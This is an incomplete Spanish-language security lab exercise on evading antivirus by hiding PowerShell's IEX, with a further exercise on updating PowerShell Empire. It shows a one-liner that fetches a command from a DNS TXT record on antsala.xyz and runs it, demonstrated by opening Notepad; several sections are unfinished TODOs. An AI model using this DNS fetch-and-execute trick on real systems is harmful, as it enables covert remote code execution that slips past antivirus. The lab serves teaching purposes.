 # Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.

![8.8.8.8 Server](../img/lab-50-C/202209142058.png)

Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.

![prueba TXT](../img/lab-50-C/202209142115.png)

Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.

![última línea](../img/lab-50-C/202209142117.png)

Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.

![Selección línea](../img/lab-50-C/202209142122.png)

Ahora nos fijamos en el siguiente registro TXT.

![Seleccionar varias líneas](../img/lab-50-C/202209142124.png)

Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.

![extracción comando](../img/lab-50-C/202209142127.png)

Vamos a ver si podemos ejecutarlo.
```
& powershell . (nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

***Notepad*** se abre. ¿Mágico verdad? Hemos conseguido ejecutar el comando que se almacena en un registro TXT de la zona DNS.

## Ejercicio 2: Actualizar PowerShell Empire.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para actualizar ***PowerShell Empire***.
```
sudo apt install powershell-empire
```

Cuando haya terminado la actualización 

TODO. 
https://www.youtube.com/watch?v=Y3fi9pc81NY








Actualizar powershell empire en Kali.